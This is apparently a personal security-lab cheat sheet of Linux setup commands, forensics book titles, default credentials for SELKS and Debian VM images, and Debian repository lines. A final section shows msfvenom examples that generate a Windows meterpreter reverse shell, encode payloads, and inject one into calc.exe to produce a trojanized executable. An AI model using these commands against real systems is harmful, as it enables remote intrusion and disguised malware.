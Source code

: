 #Linux commands

#Basic commands
sudo apt-get update
sudo apt-get upgrade
sudo apt-get install virtualbox-guest-dkms
sudo apt-get install virtualbox-guest-x11

#Add user rights to shared folder
sudo adduser %username% vboxsf

#Run python scripts
!/usr/bin/env python *.py
chmod 0755 *.py

#Forensic and analytics books
Forensics and Incident Response by Gerard Johansen
Network Intrusion Analysis by Steven Bolt, Joe Fichera

#SELKS
Usage and logon credentials (OS and web management user)
user: selks-user
password: selks-user (password in Live mode is live)
The default root password is StamusNetworks

#Debian credentials
Username: osboxes
Password: osboxes.org
Root Account Password: osboxes.org

#Debian repos
deb http://httpredir.debian.org/debian jessie main contrib
deb-src http://httpredir.debian.org/debian jessie main contrib

deb http://httpredir.debian.org/debian jessie-updates main contrib
deb-src http://httpredir.debian.org/debian jessie-updates main contrib

deb http://security.debian.org/ jessie/updates main contrib
deb-src http://security.debian.org/ jessie/updates main contrib 

#Basic Msfvenom Usage
//If you have never used msfvenom, the first thing you should do is read the help menu, and memorize some of these flags:
    -p, --payload    <payload>       Payload to use. Specify a '-' or stdin to use custom payloads  
    -l, --list       [module_type]   List a module type example: payloads, encoders, nops, all  
    -n, --nopsled    <length>        Prepend a nopsled of [length] size on to the payload  
    -f, --format     <format>        Output format (use --help-formats for a list)  
    -e, --encoder    [encoder]       The encoder to use  
    -a, --arch       <architecture>  The architecture to use  
        --platform   <platform>      The platform of the payload  
    -s, --space      <length>        The maximum size of the resulting payload  
    -b, --bad-chars  <list>          The list of characters to avoid example: '\x00\xff'  
    -i, --iterations <count>         The number of times to encode the payload  
    -c, --add-code   <path>          Specify an additional win32 shellcode file to include  
    -x, --template   <path>          Specify a custom executable file to use as a template  
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread  
        --payload-options            List the payload's standard options  
    -o, --out   <path>               Save the payload  
    -v, --var-name <name>            Specify a custom variable name to use for certain output formats  
    -h, --help                       Show this message  
        --help-formats               List available formats  
Example 1: If you wish to list all the payloads available, you can do the following (also the same for listing encoders, nops, or all):

./msfvenom -l payloads  
Example 2: Generating a windows/meterpreter/reverse_tcp:

./msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP -f exe  
Example 3: To generate a payload that avoids certain bad characters:

./msfvenom -p windows/meterpreter/bind_tcp -b '\x00'  
Example 4: To generate a payload with a specific encoder, and then encode 3 times:

./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3  
Example 5: Inject a payload to calc.exe, and save it as new.exe

./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -k -f exe > new.exe  
